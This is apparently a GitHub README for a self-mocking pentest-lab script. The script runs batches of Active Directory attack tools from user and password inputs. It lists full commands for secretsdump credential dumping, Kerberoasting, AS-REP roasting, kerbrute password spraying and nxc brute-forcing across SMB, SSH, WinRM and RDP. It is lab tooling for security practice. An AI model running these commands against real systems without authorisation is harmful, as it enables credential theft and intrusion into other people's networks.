 # VeryStupidEnumeration
Stupid? Well you came to the right place. 


Sometimes I don't remember which Impacket script to use as I do Pentest Labs, and sometimes I just want to run all of them at once like a script kiddie, but dumber and lazier. I'm creating the script as a way to dump a ton of information at myself at once, hoping that something, anything, jogs my memory into accidentally doing something smart on autopilot. 

Pros: It easy.

Cons: Someone might see you and think you're a fraud, and they'll be right. 

## Usage
This script *prompts you* for Domaoin, IP, dc-ip, user or userlist, and password or passwordlist, and then runs commands based on what you gave it with these four scenarios:
1. valid user and password
2. valid user and password list
3. user list and valid password
4. user list and password list (good luck dummy)

You probably don't want to run this with long lists, use something else for that. It will run a bunch of commands, and then send the output to a file. Here are the commands that it runs based on each of the scenarios:

Scenario 1 (user/password): 
- `bloodhound-python -u $user -p '$password' -ns $ip -d $domain -c all`
- `enum4linux -u "$user" -p "$password" -a $IP`
- `impacket-secretsdump $domain/$user:'$password'@$IP`
- `impacket-GetUserSPNs $domain/$user:'$password' -dc-ip $DC-IP`
- `impacket-GetNPUsers $domain/$user:'$password' -dc-ip $DC-IP`
- `impacket-rpcdump $domain/$user:$password@$IP`
- `ldapdomaindump -u $domain\\$user -p '$password' $domain -o ldapdomaindump`
- `nxc ldap $IP -u $user -p $password --kdcHost $IP -M laps`
- `nxc smb $IP -u $user -p '$password' -d $domain` 
- `nxc ssh $IP -u $user -p '$password' -d $domain` 
- `nxc winrm $IP -u $user -p '$password' -d $domain` 
- `nxc rdp $IP -u $user -p '$password' -d $domain --rdp-timeout 30` 
- `smbclient -L //$IP/ -U $user%$password`

Scenario 2 (user/passwordlist):
- `enum4linux -a $IP`
- `kerbrute bruteuser -d $domain $passwordlist $user`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc ssh $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc winrm $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc rdp $IP -u $user -p $passwordlist -d $domain --continue-on-success --rdp-timeout 30`
-`smbclient -L \\\\$IP\\ -u '$user' -p ''`

Scenario 3 (userlist/password):
- `enum4linux -a $IP`
- `kerbrute passwordspray -d $domain $userlist $password`
- `kerbrute userenum -d $domain $userlist`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc ssh $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc winrm $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc rdp $IP -u $userlist -p '$password' -d $domain --continue-on-success --rdp-timeout`
- `smbclient -L \\\\$IP\\ -N`

Scenario 4 (userlist/passwordlist):
- `enum4linux -a $IP`
- `kerbrute userenum -d $domain $userlist`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u '' -p '' --shares --users`
- `nxc ssh $IP -u $userlist -p $passwordlist`
- `nxc winrm $IP -u $userlist -p $passwordlist`
- `nxc rdp $IP -u $userlist -p $passwordlist --rdp-timeout 30`
- `smbclient -L \\\\$IP\\ -N`
  
It could not be easier, and frankly it shouldn't be this easy. 
